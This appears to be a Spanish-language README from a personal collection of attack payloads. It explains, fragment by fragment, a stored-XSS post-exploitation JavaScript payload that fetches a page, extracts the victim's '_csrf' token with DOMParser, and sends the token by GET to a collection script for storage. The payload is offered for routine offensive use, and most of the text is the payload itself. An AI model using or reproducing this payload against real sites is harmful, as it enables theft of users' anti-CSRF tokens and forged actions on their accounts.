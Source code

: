 
#Payloads Varios

Aqui guardo algunos payloads de uso cotidiano, como para tenerlos a mano.

## XSSStoredParserBODY.js

Su funcion esta pensada para un escenario de post explotacion de XSS Stored en donde es necesario extraer algun dato del usuario **DEL BODY**, como un token CSRF.
>fetch('http://URL') -> peticion GET sin opciones

>r=>r.text() -> Response a texto

>d=>{fetch('http://localhost/csrf.php?i='+ -> llamada a accion, en este caso enviar el token por GET a ser almacenado en archivo localhost

>new DOMParser().parseFromString(d, "text/html").getElementsByName("_csrf")[0].value) -> parseo token por nombre de elemento en el html

>{mode:'no-cors'})} -> opciones para finalizar el fetch de salida

_**Salu2**_
